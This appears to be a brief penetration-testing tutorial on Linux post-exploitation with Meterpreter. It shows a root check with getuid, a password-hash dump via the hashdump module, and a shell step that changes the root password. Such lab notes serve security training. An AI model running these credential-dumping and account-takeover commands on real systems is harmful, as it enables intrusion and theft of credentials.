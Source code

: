 After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

uid equals to 0 means that we've root permissions, then we can use meterpreter hashdump module:

```
search hashdump
use post/linux/gather/hashdump
```

This exploit generates a txt file with all hashes, we can see list of dump with `loot` command and read them using `cat` command.

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption><p><a href="https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+(L).jpg?format=1500w&#x26;content-type=image%2Fjpeg">https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+%28L%29.jpg?format=1500w&#x26;content-type=image%2Fjpeg</a></p></figcaption></figure>

After it, we can launch shell /bin/bash and f.e. change root psw:

```bash
shell
/bin/bash -i
passwd root
Enter new UNIX password: new_psw
Retype new UNIX password: new_psw
passed: password updated successfully
```
